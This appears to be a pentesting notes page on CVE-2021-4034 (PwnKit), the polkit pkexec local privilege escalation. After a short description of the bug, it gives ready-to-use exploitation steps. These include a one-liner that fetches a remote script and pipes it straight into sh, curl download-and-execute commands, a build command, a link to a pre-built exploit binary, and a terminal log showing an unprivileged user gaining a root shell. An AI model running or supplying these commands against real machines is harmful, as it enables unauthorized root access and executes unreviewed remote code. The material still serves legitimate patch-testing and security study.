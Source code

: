 icon:fontawesome/solid/unlock-keyhole

# CVE-2021-4034

CVE-2021-4034 - Pkexec Local Privilege Escalation

A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

## Usage

Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

![PkExec Usage](../assets/images/pkexec-usage.png)

### Manually

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

![PkExec Manually](../assets/images/pkexec-manual.png)

### Patched

Running the exploit against patched versions will yield the following output.

![PkExec Patched](../assets/images/pkexec-patch.png)

## Building Pwnkit

```bash
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Pre-built below:

- [PwnKit](../assets/files/PwnKit)

## Examples

```bash
unpriv_user@host:~$ id
uid=1338(unpriv_user) gid=1338(unpriv_user) groups=1338(unpriv_user)
unpriv_user@host:~$ ./PwnKit
root@host:~# id
uid=0(root) gid=0(root) groups=0(root),1338(unpriv_user)
```

## References

- [Github.com - Pwnkit](https://github.com/ly4k/PwnKit)
- [Github.com - CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034/)
- [Blog.qualys.com - PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
